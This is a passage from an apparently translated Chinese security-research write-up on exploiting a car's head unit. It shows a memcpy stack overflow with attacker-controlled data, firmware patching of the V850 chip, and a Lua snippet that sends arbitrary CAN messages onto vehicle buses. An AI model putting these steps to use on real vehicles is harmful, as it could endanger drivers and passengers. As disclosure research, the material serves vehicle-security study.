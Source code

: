    
    
    memcpy(fixed_buffer, attacker_controlled_data, attacker_controlled_len);
    

是一个类似的栈溢出：

    
    
    0004A478      movea   arg_50, sp, r6
    0004A47C      addi    5, r28, r7
    0004A480      ld.bu   4[r28], r10
    0004A484      mov     r10, r8
    0004A486      jarl    memcpy, lp
    

我们已经在代码库中找到了另外的几个内存崩溃bug，但是没有列在这儿，因为我们的利用过程不需要。

## 通过V850芯片发送CAN信息

如果你按照我们上述的介绍来修改固件，那么通过修改你就可以从OMAP芯片中发出任意的CAN信息。实现的方式有很多种，但是最简单也最安全的方式是在SPI信息中发送CAN数据，这样信息就会传递给V850中合适的函数。我们选择了SPI通道7上的信息‘F0 02’。和前面的观察一样，这个信息对应的是获取固件的编译日期。我们选用这条命令，是因为我们没有发现任何代码会调用这条命令，所以即便我们搞砸了，也不会造成致命的错误。

处理通道7的函数位于0x4b2c6。处理‘F0 02’的代码从0x4aea4开始。我们的技术是通过修改固件并跳转到ROM中一个没有使用过的位置，在这里放置上我们选择的任意代码。在代码结束时，我们就把执行返回到初始的位置。

![](http://www.quip.com/blob/dPVAAAb46Fm/kB9kbeeK72bvosB49KYPJQ?s=2SDKADyVrLzM)

图-我们在固件中新添加的代码

我们使用的函数是‘can_transmit_msg_1_or_3’ (0x6729c)。这个函数会从92个固定值中选取一个作为参数，这个92个值各自对应了CAN信息阵列中(ID，长度和数据)的一个独立位置。对于大多数值而言，CANID是固定的。但是对于某些值来说（39和91为例），它们会从RAM中（不同其他从ROM中读取）读取CAN ID和LEN。

我们的代码会从SPI信息中读取CAN ID，并把CAN ID放到RAM中，从而读取CAN ID的位置（gp- 0x2CC4 ）。然后把SPI数据包中的数据复制到RAM中的合适位置。最后，复制数据长度，并把数据长度放到预期位置。我们的代码会调用函数来传输这个信息，然后把一个值设置成r18（由我们的框架代码破坏），并按预期返回。

接着，从头单元中，类似下面的LUA代码会向高速总线和中速总线发送一个CAN信息，分别取决于你使用的是39信息还是91信息。

    
    
    ipc = require("ipc")
    file = '/dev/ipc/ch7'
    g = assert(ipc.open(file))
    -- f0,02,39|91,LEN,CAN1,CAN2,CAN3,CAN4,DATA0,DATA1...
    g:write(0xf0, 0x02, 91, 0x08, 0xf1, 0x86, 0xda, 0xf8, 0x05, 0x2F, 0x51, 0x06, 0x03, 0x10, 0x00, 0x00)
    

